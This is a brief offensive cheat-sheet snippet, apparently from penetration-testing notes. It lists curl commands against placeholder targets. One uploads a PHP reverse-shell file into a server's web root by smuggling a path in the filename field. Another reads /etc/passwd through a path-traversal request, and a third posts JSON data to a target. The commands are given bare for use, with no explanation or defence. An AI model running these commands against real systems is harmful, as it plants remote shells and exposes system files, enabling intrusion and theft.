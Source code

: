 
Upload shell using post request and additional parameters:
---
```bash
curl -X POST "$TARGET_URL/file-upload" -F "file=@rev.php.txt" -F "filename=/var/www/html/rev.php"
```


```bash
curl --header "Content-Type: application/json" --request POST -d @data.json http://$TARGET_IP
```

```bash
curl --path-as-is http://$TARGET_URL/../../../../../../../../etc/passwd
```
